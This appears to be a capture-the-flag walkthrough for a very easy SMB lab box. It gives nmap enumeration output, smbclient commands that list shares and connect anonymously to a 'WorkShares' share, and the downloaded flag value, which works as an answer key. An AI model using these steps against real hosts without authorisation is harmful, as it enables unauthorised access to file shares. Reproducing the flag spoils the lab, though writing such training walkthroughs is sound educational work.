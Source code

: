 # CTF Walkthrough: Dancing

## Table of Contents
- [1. Introduction](#1-introduction)
- [2. Steps](#2-steps)

---

## 1. Introduction

**Category:** Server Message Block (SMB)     
**Difficulty Level:** Very Easy   
**CVE(s) involved:** -

---

## 2. Steps

1. Service Enumeration
    - Command: `nmap -sV 10.129.45.129`
        - Output:
            ```
            PORT     STATE SERVICE       VERSION
            135/tcp  open  msrpc         Microsoft Windows RPC
            139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
            445/tcp  open  microsoft-ds?
            5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
            |_http-server-header: Microsoft-HTTPAPI/2.0
            |_http-title: Not Found
            Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

            ```
2. List all shares in SMB
    - Command: `smbclient -L 10.129.45.129`
        - Output:
            ```
            Sharename       Type      Comment
            ---------       ----      -------
            ADMIN$          Disk      Remote Admin
            C$              Disk      Default share
            IPC$            IPC       Remote IPC
            WorkShares      Disk
            ```

3. Go to WorkShares
    - Command: `smbclient \\\\10.129.45.129\\WorkShares`

4. Get Flag
    - Command: 
        ```
        cd James.P
        get flag.txt
        ```
    - Flag : 5f61c10dffbc77a704d76016a22f1664


